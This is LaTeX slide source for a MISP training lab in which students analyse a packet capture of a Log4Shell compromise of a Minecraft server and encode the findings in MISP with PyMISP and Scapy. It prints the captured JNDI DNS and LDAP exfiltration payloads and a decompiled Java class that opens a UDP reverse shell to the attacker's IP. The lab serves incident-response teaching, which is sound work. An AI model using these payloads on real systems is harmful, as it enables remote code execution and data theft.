% DO NOT COMPILE THIS FILE DIRECTLY!
% This is included by the other .tex files.

\begin{frame}[t,plain]
\titlepage
\end{frame}

\begin{frame}
    \frametitle{Log4J exploitation lab}
    The goal of this lab is to analyze a network capture evidence file, encode, and share the information following a successful exploitation by an attacker.
	\linebreak
	\linebreak
	\linebreak
    Resources:
    \begin{itemize}
        \item \href{https://github.com/MISP/misp-training-lea/tree/main/e.304-lab3-encoding-information-and-sharing-it-2/for-students/capture-e.304.pcap}{\underline{capture-e.304.pcap}}
    \end{itemize}
    Tools:
    \begin{itemize}
        \item \href{https://www.wireshark.org/}{\underline{Wireshark}}: Network protocol analyzer
        \item \href{https://github.com/skylot/jadx}{\underline{Jadx}}: Dex to Java decompiler
        \item \href{https://github.com/MISP/misp-wireshark}{\underline{misp-wireshark}}: Lua plugin to extract data from Wireshark and convert it into MISP format 
    \end{itemize}

    \note[item]{}
\end{frame}

\begin{frame}
    \frametitle{Actors}
    \href{https://github.com/MISP/misp-training-lea/tree/main/e.304-lab3-encoding-information-and-sharing-it-2/for-students/capture-e.304.pcap}{\underline{capture-e.304.pcap}} is a network capture on the eth0 interface on our Minecraft Server.
    \linebreak
    \linebreak
    {\color{blue}{\bf Minecraft Server}}
    \begin{itemize}
    	\item External IP: 44.202.61.172
	    \item Internal IP: 172.31.84.208
	    \item Version: Java Edition v1.18 
	    \item Vulnerable to \href{https://nvd.nist.gov/vuln/detail/CVE-2021-44228}{CVE-2021-44228}
    \end{itemize}
    
    External actors:
    \begin{itemize}
        \item {\color{green}{\bf Player}}
        \item {\color{red}{\bf Attacker}}
    \end{itemize}

    \note[item]{}
\end{frame}

\begin{frame}
    \frametitle{Exercise 1: Identifying the external actors }
    Using Wireshark:
    \begin{itemize}
    	\item Identify {\color{green}{\bf Player}} IP address
    	\item Identify {\color{red}{\bf Attacker}} IP address
    \end{itemize}
    \begin{figure}
		
\includegraphics[scale=0.45]{../pictures/csi-meme.png}
		\caption[csi]{CSI: NY - S4E20}
    \end{figure}
    \begin{center}Exercise duration: 10 minutes\end{center}
    \note[item]{Player IP: 178.249.193.69, Attacker IP: 18.212.74.161}
\end{frame}

\begin{frame}
    \frametitle{Wireshark tips}
    Statistics -> IPv4 Statistics -> All Addresses
	\begin{center}
\includegraphics[scale=0.45]{../pictures/wireshark-statistics.png}\end{center}
	Useful filters:
    \begin{itemize}
    	\item ip.addr == 10.10.10.10 \&\& ip.addr == 20.20.20.20
    	\item dns.flags.rcode != 0
    \end{itemize}
    \note[item]{First one is for filtering the communication between two IP addresses only, second one shows failed dns requests, which can potentially be a C2 beaconing }
\end{frame}

\begin{frame}
    \frametitle{Exercise 2: In-depth analysis 1/2}
        \begin{enumerate}
        \item Identify {\color{red}{\bf Attacker}} connection to the {\color{blue}{\bf Minecraft Server}}
        \item Search for {\bf \emph{jndi}} string using Wireshark packet string search, and extract all the payloads
        \item Analyze JNDI payloads and their purpose
        \begin{itemize}
        	\item DNS
        	\item LDAP
        \end{itemize}        
        \item Describe the information the {\color{red}{\bf Attacker}} leaked information via DNS/LDAP requests
    \end{enumerate}
    \begin{center}Exercise duration: 20 minutes\end{center}
    \note[item]{Attacker connects in packet no. 1540. First attacker payload is a JNDI DNS probe to interact.sh (online tool). after a successful dns probe, attacker leaks via DNS OS user and Java version. Later the attacker leaks via LDAP queries, full Java version, OS, Java VM, Java locale, HW info. Last LDAP payload is a Java RCE.}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 2: In-depth analysis 2/2}
   {\bf DNS payloads}
    \begin{lstlisting}[basicstyle=\tiny\color{black}]
${jndi:dns://hostname-${hostName}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://user-${env:USER}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://version-${sys:java.version}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
    \end{lstlisting}
   {\bf LDAP payloads}
	\begin{lstlisting}
${jndi:ldap://18.212.74.161/${java:version}}
${jndi:ldap://18.212.74.161/${java:os}}
${jndi:ldap://18.212.74.161/${java:vm}}
${jndi:ldap://18.212.74.161/${java:locale}}
${jndi:ldap://18.212.74.161/${java:hw}}
${jndi:ldap://18.212.74.161:389/1svssl}
    \end{lstlisting}
    \note[item]{Attacker connects in packet no. 1540. First attacker payload is a JNDI DNS probe to interact.sh (online tool). after a successful dns probe, attacker leaks via DNS OS user and Java version. Later the attacker leaks via LDAP queries, full Java version, OS, Java VM, Java locale, HW info. Last LDAP payload is a Java RCE.}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 3: Payload delivery and RCE 1/2}
	{Identify the TCP stream where the {\color{red}{\bf Attacker}} delivered the RCE payload to the {\color{blue}{\bf Minecraft Server}}}
	\linebreak
    \begin{itemize}
    	\item Search for LDAP traffic after the last JNDI payload
    	\item Payload delivery is over HTTP
    	\item HTTP objects can be exported easily in Wireshark
	\begin{lstlisting}
File -> Export Objects -> HTTP...
	\end{lstlisting}
    	\item What does the payload do?
    	\item Identify which commands the {\color{red}{\bf Attacker}} run abusing the RCE

    \end{itemize}
    \begin{center}Exercise duration: 15 minutes\end{center}
    \note[item]{The payload is a reverse UDP shell connecting to remote port 6666 on the attackers machine.}
    \note[item]{The payload can be easily decompiled with Jadx}
    \note[item]{filter reverse shell interaction: ip.src==18.212.74.161 \&\& udp}
    \note[item]{The attacker runs the following commands:}
    \note[item]{packet 5202: ls}
    \note[item]{packet 5211: whoami}
    \note[item]{packet 5216: id}
    \note[item]{packet 5202: pwd}
    \note[item]{packet 5238: wget http://www.youtube.com/watch?v=dQw4w9WgXcQ}
    \note[item]{packet 6308: exit}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 3: Payload delivery and RCE 2/2}
	\begin{lstlisting}[basicstyle=\tiny\color{black},language=Java]
// ExecTemplateJDK8.class
package defpackage;

/* renamed from: ExecTemplateJDK8  reason: default package */
public class ExecTemplateJDK8 {
    static {
        try {
            Runtime.getRuntime()
                    .exec(System.getProperty("os.name").toLowerCase().contains("win")
                            ? new String[] {
                                    "cmd.exe", "/C",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            }
                            : new String[] {
                                    "/bin/bash", "-c",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            });
        } catch (Exception e) {
            e.printStackTrace();
        }
        System.out.println();
    }
}
	\end{lstlisting}

    \note[item]{packet 5: legit player connects to Minecraft server and plays normally}
    \note[item]{packet 1540: attacker connects to server via python script}
    \note[item]{packet 2488-2496: attacker sends chat that triggers dns probe to interactsh (dns)}
    \note[item]{packet 3378: attacker leaks user (dns)}
    \note[item]{packet 3619: attacker leaks java (dns)}
    \note[item]{packet 3798: attacker leaks java version (ldap)}
    \note[item]{packet 4049: attacker leaks OS (ldap)}
    \note[item]{packet 4266: attacker leaks java VM (ldap)}
    \note[item]{packet 4468: attacker leaks java locale (ldap)}
    \note[item]{packet 4729: attacker leaks HW (ldap)}
    \note[item]{tcp.stream eq 33: attacker delivers UDP reverse shell payload (ldap \& http}
    \note[item]{udp.stream eq 12: attacker runs a few cmds via reverse shell and exits}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP Encoding: Event}
    \begin{itemize}
    	\item Describing actors and their interactions in MISP
    \end{itemize}
    \begin{center}
\includegraphics[scale=0.30]{../pictures/misp-event-graph.png}\end{center}
    \note[item]{Create a new Event in MISP}
    \note[item]{Create a network/domain-ip object for our Minecraft Server}
    \note[item]{Create a network/domain-ip object for the Player}
    \note[item]{Create a network/domain-ip object for the Attacker}
    \note[item]{Create a network/domain-ip object for the *.interact.sh domain}
    \note[item]{Fill each object first/last seen properties}
    \note[item]{Fill each object with all the ports identified}
    \note[item]{Create references between the objects}
    \note[item]{Player->[connects-to]->Minecraft Server}
    \note[item]{Attacker->[uses-for-recon]->*.interact.sh}
    \note[item]{Minecraft Server->[connects-to]->*.interact.sh}
    \note[item]{Attacker->[compromised]->Minecraft Server}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP Encoding: Timeline}
    \begin{itemize}
    	\item Adding fine-grained information
    \end{itemize}
    \begin{center}
\includegraphics[scale=0.25]{../pictures/misp-event-timeline.png}\end{center}
    \note[item]{Add a network/domain-ip objects with first/last seen for each DNS exfiltration}
    \note[item]{Add a network/domain-ip objects with first/last seen for each LDAP exfiltration}
    \note[item]{Objects are prefered as they can have references between each other.}
    \note[item]{Add a file/malware sample for the Java payload}
    \note[item]{Add an attribute describing each command the attacker run with its timestamp}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP Encoding: Context}
    \begin{itemize}
    	\item Adding contextual information such as tags and galaxy clusters
    \end{itemize}
    \begin{center}
\includegraphics[scale=0.35]{../pictures/misp-event-tags-galaxy.png}\end{center}
    \note[item]{Explain the importance of adding tags}
    \note[item]{Explain why use event, object, or attribute level tags}
    \note[item]{Showcase usage of MITRE ATT\&CK galaxy}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP Automation: PyMISP and Scapy 1/2}
    Push all failed DNS requests as attributes to a MISP event
    \begin{lstlisting}[basicstyle=\tiny\color{black},language=Python]
#!/var/www/MISP/venv python3.8
# -*- coding: utf-8 -*-

from pymisp import PyMISP, MISPAttribute, MISPSighting
from scapy.all import *
import sys

api = PyMISP("https://YOUR_MISP_HOST/", "YOUR_API_KEY")

if len(sys.argv) < 2:
    exit("usage: python populate_event.py [capture.pcap] [event_id]")
    
pcap = rdpcap(sys.argv[1])
event_id = sys.argv[2]

for pkt in pcap:
    dns_pkt = pkt.getlayer('DNS')
    if dns_pkt and pkt.opcode == 0 and dns_pkt.rcode != 0:
        attr = MISPAttribute()
        attr.type = 'domain'
        attr.to_ids = True
        attr.comment = 'dns exfiltration'
        attr.first_seen = float(pkt.time)
        attr.value = dns_pkt.qd.qname.decode("utf-8").rstrip(".")
        res = api.add_attribute(event_id, attr, pythonify=True)
	\end{lstlisting}
    \note[item]{The following snippet parses a pcap file and pushes all failed DNS requests as attributes to a MISP event}
    \note{PyMISP makes interacting with MISP API very easy}
    \note{Scapy is a packet manipulation tool that can be paired easily with PyMISP}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP Automation: PyMISP and Scapy 2/2}    
    {\small Extending the previous script with {\bf sightings}, if we detect a duplicate of an attribute, we instead add a sighting of the value.}
    \linebreak
    \begin{lstlisting}[basicstyle=\tiny\color{black},language=Python]
dup_error_msg = "A similar attribute already exists for this event."
	\end{lstlisting}
	\begin{lstlisting}[basicstyle=\tiny\color{gray},language=Python]
for pkt in pcap:
    dns_pkt = pkt.getlayer('DNS')
    if dns_pkt and pkt.opcode == 0 and dns_pkt.rcode != 0:
        attr = MISPAttribute()
        attr.type = 'domain'
        attr.to_ids = True
        attr.comment = 'dns exfiltration'
        attr.first_seen = float(pkt.time)
        attr.value = dns_pkt.qd.qname.decode("utf-8").rstrip(".")
        res = api.add_attribute(event_id, attr, pythonify=True)
	\end{lstlisting}
	\begin{lstlisting}[basicstyle=\tiny\color{black},language=Python]
        if res['errors'] and dup_error_msg in res['errors'][1]['errors']['value']:
            sighting = MISPSighting()
            sighting.value = attr.value
            sighting.timestamp = float(pkt.time)
            api.add_sighting(sighting)
	\end{lstlisting}
    \note[item]{The following snippet parses a pcap file and pushes all failed DNS requests as attributes to a MISP event}
    \note{PyMISP makes interacting with MISP API very easy}
    \note{Scapy is a packet manipulation tool that can be paired easily with PyMISP}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Bonus: misp-wireshark}
    \begin{itemize}
    	\item \href{https://github.com/MISP/misp-wireshark}{\underline{misp-wireshark}} can be used to export information from a pcap file to MISP format
    \end{itemize}
    \begin{center}
\includegraphics[scale=0.35]{../pictures/misp-wireshark-dialog.png}\end{center}
	\begin{center}
\includegraphics[scale=0.35]{../pictures/misp-wireshark-event-graph.png}\end{center}
    \note[item]{Explain how to add the plugin to Wireshark}
    \note[item]{Go to "Wireshark" -> "Tools" -> "MISP: Export to MISP format"
    use the following filter: "tcp.stream eq 34" and hit OK}
    \note[item]{Copy the json contents from the pop-up window}
    \note[item]{In your MISP instance, open the exercise event and on the menu on the left select: "Populate from..." -> "Populate using a JSON file containing MISP event content data"}
    \note[item]{Paste the copied json from Wireshark and click on Submit.}
\end{frame}
